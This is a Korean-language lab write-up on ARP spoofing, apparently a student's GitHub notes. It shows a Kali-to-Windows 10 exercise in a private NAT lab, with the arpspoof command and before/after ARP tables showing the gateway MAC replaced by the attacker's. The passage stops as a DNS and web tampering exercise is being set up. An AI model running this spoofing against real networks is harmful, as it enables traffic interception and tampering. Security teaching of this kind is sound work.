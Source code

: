 # ARP Spoofing

## 개요

- MAC Address를 속여 LAN에서의 통신 흐름을 왜곡시키는 기법을 말한다.
- ARP 테이블이 바뀌면 경고를 보내는 툴을 통해 어느 정도는 예방할 수 있지만 근본적으로 TCP/IP 프로토콜 자체의 문제이기 때문에 ARP Spoofing에 대한 보안 대책은 없다.

### ARP 테이블
- IP주소와 해당 주소에 대한 MAC Address 목록을 말한다.
- 'cmd'창에서 'arp -a' 를 통해서 확인할 수 있다.

## 실습 1. 기본 실습 (IP를 이용한 공격)
### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.2
- Victim(Windows 10)    192.168.10.130 / c / 192.168.10.2 / 192.168.10.2
``` 

```
[samadal@kali ~]$ sudo ip link show eth0
[sudo] password for samadal:
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    link/ether 00:0c:29:b2:04:58 brd ff:ff:ff:ff:ff:ff

[samadal@kali ~]$ sudo arp -a
_gateway (192.168.10.2) at 00:50:56:e0:28:a3 [ether] on eth0
? (192.168.10.1) at 00:50:56:c0:00:08 [ether] on eth0

[samadal@kali ~]$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.10.134  netmask 255.255.255.0  broadcast 192.168.10.255
        inet6 fe80::20c:29ff:feb2:458  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b2:04:58  txqueuelen 1000  (Ethernet)
        RX packets 186  bytes 29318 (28.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 149  bytes 20777 (20.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3

```  
## ARP Spoofing을 이용한 MAC Address 변경

```
sudo dsniff
```
```
sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
```
- 명령어 실행 전
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3
```
![전](./img/스푸핑img/1.png)
- 명령어 실행 후
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:0c:29:b2:04:58
```
![후](./img/스푸핑img/2.png)

## 결론
- 공격을 하고 있는 동안만 MAC Address가 변경된다.

## 실습 2. 응용 실습 (도메인을 이용한 공격)

### 개요
- CentOS에서 DNS서버와 Web 서버를 구축한다.
- Kali에서 ARP Spoofing 공격을 시도한다.
- Window 10에서 사이트 출력을 확인하고 변조된 것을 확인한다.

### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.132
- Victim(CentOS)        192.168.10.132 / c / 192.168.10.2 / 192.168.10.132
- 확인(Windows 10)       192.168.10.130 / c / 192.168.10.2 / 192.168.10.132
``` 
